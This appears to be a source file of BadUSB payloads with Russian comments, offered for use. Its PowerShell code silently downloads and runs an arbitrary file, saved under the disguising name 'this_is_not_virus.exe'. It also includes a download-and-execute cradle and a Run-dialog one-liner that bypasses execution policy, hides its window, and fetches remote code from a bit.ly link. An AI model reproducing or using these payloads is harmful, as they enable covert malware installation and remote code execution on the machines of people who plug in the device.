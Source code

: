 # Payload 1 для BadUSB
# Задача: Скачать и запустить любой файл (хоть EXE, хоть MP3)
# Этот файл нагрузки будет выполняться в фоновом режиме без видимых окон, и его размер может быть любым (в нём нет лимита на 259 символов)

$url_file = 'файл ссылка'
$file = 'this_is_not_virus.exe'	#Под каким названием сохранить файл, так же можно указать путь "C:\Windows\this_is_not_virus.exe"

PowerShell (New-Object System.Net.WebClient).DownloadFile($url_file,$file),
(New-Object -com Shell.Application).ShellExecute($file);  

#####################
## Конец Payload 1 ##
#####################

********************************************************************************************************************************************************

###################################
## Команда для запуска Payload 1 ##
###################################

iex(New-Object Net.WebClient).DownloadString('Ссылка')

###########
## Конец ##
###########

********************************************************************************************************************************************************

################################################
## Загрузка+Выполнение Payload из Windows + R ##
##     Тут у нас лимит в 259 символов         ##
################################################

powershell -ep bypass -nop -w 1 iex(New-Object Net.WebClient).DownloadString('http://bit.ly/2Jpad6o')

###########
## Конец ##
###########
